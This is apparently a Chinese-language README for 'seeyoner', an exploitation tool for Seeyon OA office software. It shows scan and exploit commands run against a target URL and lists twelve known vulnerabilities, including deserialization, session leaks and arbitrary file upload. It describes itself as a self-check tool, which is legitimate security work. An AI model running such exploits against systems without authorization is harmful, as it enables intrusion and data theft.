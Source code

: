 # seeyoner
致远OA漏洞利用工具

## Usage
```
PS C:\> seeyonerExp.exe -h
一个简单的致远OA安全测试工具，目的是为了协助漏洞自查、修复工作。

Usage:
  Seeyoner [command]

Available Commands:
  exploit     漏洞利用
  help        Help about any command
  list        列出所有漏洞信息
  scan        漏洞检测

Flags:
  -h, --help   help for Seeyoner

Use "Seeyoner [command] --help" for more information about a command.
```
### scan
全漏洞探测：
```
seeyonerExp.exe -u http://xxx.com -i 0
```

指定漏洞探测：
`-vn`指定漏洞编号，可通过`-show`参数查看：
```
D:\>seeyonerExp.exe list

漏洞列表：
1、seeyon<8.0_fastjson反序列化
2、thirdpartyController.do管理员session泄露
3、webmail.do任意文件下载（CNVD-2020-62422）
4、ajax.do未授权&任意文件上传
5、getSessionList泄露Session
6、htmlofficeservlet任意文件上传
7、initDataAssess.jsp信息泄露
8、DownExcelBeanServlet信息泄露
9、createMysql.jsp数据库信息泄露
10、test.jsp路径
11、setextno.jsp路径
12、status.jsp路径（状态监控页面）
```
探测seeyon<8.0_fastjson反序列化漏洞：
```
seeyonerExp.exe scan -u http://xxx.com -i 1
```

### run

以Session泄露+zip文件上传解压为例，指定编号为`2`：

```
seeyonerExp.exe exploit -u http://xxxx.com -i 2
```
  
